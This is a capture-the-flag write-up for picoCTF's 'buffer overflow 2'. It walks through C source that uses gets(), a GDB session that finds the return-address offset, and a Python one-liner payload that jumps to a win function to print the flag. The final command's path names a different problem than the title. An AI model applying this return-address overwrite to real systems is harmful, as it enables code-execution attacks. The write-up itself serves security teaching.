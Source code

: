# buffer overflow 2

When we take a look at the binary, we can see all it does is take a string and then returns.
```
root@kali:~/Crack Me# ./vuln2
Please enter your string:
asdf
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```
When it says it returns, this gives us a massive hint. From a game-theory perspective, if the title is "buffer overflow 2", and it returns, we can infer that the solution must have something to do with overflowing the buffer to let us return elsewhere.

Taking a look at the source code confirms our suspicious.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Conveniently enough, there is a `win` function that is unconnected from the rest of the code, and a conveniently labeled `vuln`. First let's open up GDB and try to find the offset.
```
(gdb) r
Starting program: /root/Crack Me/vuln2
Please enter your string:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c

Program received signal SIGSEGV, Segmentation fault.
0x4c4c4c4c in ?? ()
```
Okay, so we received a segmentation fault when we tried to access `0x4c4c4c4c`. That happens to be LLLL in hex, so we now know our offset is 44 bytes. Now let's try to figure out the address of `win`.
```
(gdb) info func
All defined functions:

Non-debugging symbols:
...
0x080485cb  win
...
```
Nested in a list of functions is our `win` function. Putting it all together, we have our payload.
```
slopey112@pico-2018-shell:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ python -c "print 'A'*
44+'\xcb\x85\x04\x08'" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}
```
